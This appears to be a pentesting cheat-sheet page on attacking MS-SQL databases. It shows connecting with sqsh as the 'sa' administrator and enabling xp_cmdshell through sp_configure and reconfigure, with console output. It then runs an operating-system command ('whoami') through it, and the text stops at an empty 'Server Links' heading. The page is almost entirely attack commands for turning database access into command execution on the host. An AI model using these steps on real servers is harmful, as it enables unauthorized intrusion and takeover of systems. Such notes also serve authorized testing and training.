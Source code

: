 # MS-SQL Databases

## Connecting to the Database

```
sqsh -S 192.168.0.6  -U sa
```

## xp\_cmdshell

```sql
1> exec sp_configure 'show advanced options', 1 
2> go 
Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install. 
(return status = 0) 
1> reconfigure 
2> go 
1> exec sp_configure 'xp_cmdshell', 1 
2> go 
Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install. 
(return status = 0) 
1> reconfigure 
2> go
```

```sql
1> exec master..xp_cmdshell 'whoami' 
2> go
```

## Server Links



